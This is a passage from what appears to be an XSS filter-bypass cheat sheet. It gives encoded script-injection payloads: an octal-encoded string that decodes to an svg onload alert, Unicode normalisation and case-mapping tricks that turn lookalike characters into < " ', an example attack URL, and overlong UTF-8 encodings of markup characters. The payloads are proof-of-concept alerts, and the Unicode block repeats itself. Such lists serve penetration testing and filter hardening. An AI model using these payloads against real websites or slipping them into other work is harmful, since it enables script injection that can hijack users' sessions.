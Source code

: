 Bypass using Octal encoding

```javascript
javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76'
```

Bypass using Unicode

```javascript
Unicode character U+FF1C FULLWIDTH LESS­THAN SIGN (encoded as %EF%BC%9C) was
transformed into U+003C LESS­THAN SIGN (<)

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")

Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')

Unicode character U+FF1C FULLWIDTH LESS­THAN SIGN (encoded as %EF%BC%9C) was
transformed into U+003C LESS­THAN SIGN (<)

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")

Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')

E.g : http://www.example.net/something%CA%BA%EF%BC%9E%EF%BC%9Csvg%20onload=alert%28/XSS/%29%EF%BC%9E/
%EF%BC%9E becomes >
%EF%BC%9C becomes <
```

Bypass using Unicode converted to uppercase

```javascript
İ (%c4%b0).toLowerCase() => i
ı (%c4%b1).toUpperCase() => I
ſ (%c5%bf) .toUpperCase() => S
K (%E2%84%AA).toLowerCase() => k

<ſvg onload=... > become <SVG ONLOAD=...>
<ıframe id=x onload=>.toUpperCase() become <IFRAME ID=X ONLOAD=>
```

Bypass using overlong UTF-8

```javascript
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9
```
